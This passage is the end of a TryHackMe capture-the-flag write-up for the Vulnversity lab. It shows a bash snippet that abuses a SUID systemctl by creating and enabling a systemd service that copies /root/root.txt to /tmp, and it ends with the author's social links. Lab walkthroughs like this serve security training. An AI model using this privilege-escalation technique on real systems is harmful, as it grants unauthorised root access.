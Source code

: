 ```bash
flag=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag.txt"
[Install]
WantedBy=multi-user.target' > $flag
/bin/systemctl link $flag
/bin/systemctl enable --now $flag
```

![Untitled](<../Vulnversity/images/Untitled 22.png>)

***

### I hope you enjoyed the write-up

* [Linkedin](https://www.linkedin.com/in/juba0x00/)
* [Twitter](https://twitter.com/juba0x00/)
* [TryHackMe](https://tryhackme.com/p/Juba0x430x55)

